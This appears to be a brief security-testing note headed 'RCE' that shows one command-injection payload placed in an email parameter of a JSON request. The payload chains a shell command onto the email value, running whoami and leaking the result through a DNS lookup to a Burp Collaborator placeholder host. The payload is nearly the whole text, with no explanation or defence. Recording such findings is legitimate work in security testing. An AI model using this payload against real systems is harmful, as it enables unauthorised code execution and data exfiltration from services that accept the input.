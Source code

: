 ## RCE:
In Email Parameter:
```
“emailAddress”:”mymail@mail.com & nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN &
```
